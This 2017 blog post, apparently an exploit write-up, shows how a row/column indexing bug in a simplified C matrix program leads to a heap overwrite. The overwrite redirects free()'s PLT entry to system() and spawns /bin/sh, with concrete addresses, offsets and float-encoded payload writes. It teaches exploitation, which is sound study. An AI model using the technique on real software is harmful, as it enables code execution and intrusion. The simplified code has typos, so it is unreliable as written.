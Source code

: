 ```yaml
---
layout: post
title: A Tale Of Indices
excerpt: Exploting bad indexing code to mess with malloc and the PLT
date: 2017-04-13
tags: c-cpp
---
```


This is the story of how bad indexing code can lead to an exploit.
Even though this is on the heap, most of it doesn't actually involve malloc that much, but relies on a specific feature of it: memory blocks are adjacent.
However, it does involve messing with the plt!

<!--more-->

# A Wild Bug Appears

First, the code.
This is not exactly the original code, but simplified quite a bit (removing the input logic, much checking and other functionality).

```c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug?
Hint: it's in `get_addr`.
The matrix indexing is incorrect, it should be `row * mat->cols + col`.
See the difference?
This overflow is what allows the shell to be spawned.

# A note on float conversion

In this program, memory is only accessible as floats.
While inconvenient, this is still usable as floats also take up the same space as ints, 4 bytes.
With enough digits, we can be guaranteed to get an identical value when we set it.
To find this value, we can use a union:

```c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings.
Since the system is little endian (x86), we just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

# Exploit Preparation

Firstly, a bit on `malloc()`.
It obtains memory from the system (usually via `mmap()`), and divides it up into chunks.
These are then allocated when requested by the programmer.
Since the block given is the first that fit the size, this results in the matrices and their descriptors being allocated right next to each other:

```
|-----+------|-----+-----------|-----+-----|-----+-----------|
| (sz)|mat 1 | (sz)|mat1->data | (sz)|mat2 | (sz)|mat2->data |
|-----+------|-----+-----------|-----+-----|-----+-----------|
```

As a result, we can exploit the bad indexing to overwrite the matrix descriptor (in this case mat2) from the previous data block (mat1->data).
Through this, we can overwrite the data pointer of mat2 to whatever we want, allowing us to write to any location in memory.
One potential target is the plt (procedural link table), which lists the location of functions of dynamically loaded libraries (e.g. libc).
However, one specific entry is of interest -- `free()`.
When matrices are released, this is called on user-editable data, and with that as the only argument.
`system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so can `system()`.
However, it is always at the same offset from `free()`, and we can use that, along with the existing plt entry to calculate the position of `system()`.

# Actual Exploit

First, we need to get some information:

```console
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit.
First, we create 2 matrices which have more rows than columns (e.g. 8*7).
We then create and release another matrix.
This is required to initialize the plt entry to the actual location of `free()` (`__libc_free()`), from which we can figure out the location of `system()` using the offset.
We now can use the overflowing get_addr logic to overwrite mat2's data pointer to point to 0x0804a10c (the address of the plt entry).

```c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer?
Since it's the last element of the struct, we search down from the top, until we get to the second non-zero value.
Why second?
Because the first would be the size of the next block, and we have no need overwriting that.
From my tests, it appears that with an 8*7 matrix, the value is located at [7,4], which we overwrite with the float equivalent of 0x0804a10c.

```c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address of `__libc_free()`.
We can add the offset (-228656) to this to get the address of `__libc_system()` and overwrite the exiting value with this.

```c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is "/bin/sh" (you can use any command here though).
And we execute the command by freeing that matrix.

```c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
